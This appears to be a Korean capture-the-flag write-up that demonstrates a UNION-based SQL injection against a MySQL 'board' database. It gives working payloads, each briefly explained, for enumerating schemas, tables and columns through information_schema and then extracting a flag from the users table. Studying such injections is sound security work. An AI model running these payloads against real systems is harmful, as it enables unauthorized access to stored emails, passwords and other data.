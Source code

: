 **1. 컬럼 수 확인 : 1, 2, 3, 4, #**

' UNION SELECT 1, 2, 3, 4 ; #

<br>

**2. DB 데이터베이스의 이름을 찾기 - DB 명: board**

' UNION SELECT 1, 2, schema_name, 4 FROM information_schema.schemata ; #

자리는 상관이 없음.

왜 schema_name인가? => 그것이 실제 DB 이름을 담고 있는 정확한 컬럼명이기 때문

왜 information_schema.schemata인가? => MySQL에서 DB 목록을 담고 있는 시스템 테이블이기 때문 (schemata는 "스키마들"이라는 뜻)

<br>

**3. Table 명 찾기 - Table 명 : users**

' UNION SELECT 1, 2, table_name, 4 FROM information_schema.tables WHERE table_schema = 'board' ; # (WHERE 절 DB에 있는 TABLE 질의 검색)

왜 information_schema.tables인가?
 
MySQL에서는 모든 데이터베이스의 테이블 목록을 이 시스템 테이블에 저장합니다.

information_schema.tables는 표준 시스템 테이블

```
주요 컬럼:

table_schema: 테이블이 속한 데이터베이스 이름
table_name: 테이블 이름
table_type: BASE TABLE, VIEW 등
```
<br>

**4. 속성 명 찾기 - 속성명 : id, email, password, flag**

' UNION SELECT 1, 2, column_name, 4 FROM information_schema.columns WHERE table_name = 'users' ; #

information_schema.columns란?

MySQL 시스템 테이블로, 모든 테이블의 컬럼 정보를 저장하고 있다.

```
주요 컬럼:
table_schema: 어떤 DB 소속인지
table_name: 어떤 테이블인지
column_name: 컬럼 이름
```
WHERE 조건: table_name = 'users'

이 조건으로 인해 "users"라는 이름을 가진 테이블의 컬럼들만 가져온 것.

단, users라는 테이블 이름은 모든 데이터베이스에 걸쳐 조회되기 때문에,  만약 같은 이름의 테이블이 다른 DB에 또 있다면, 구분이 필요할 수도 있다.

<br>

**5. SQL 문: SELECT column명 FROM Table명**

' UNION SELECT 1, 2, flag, 4 FROM users ; #
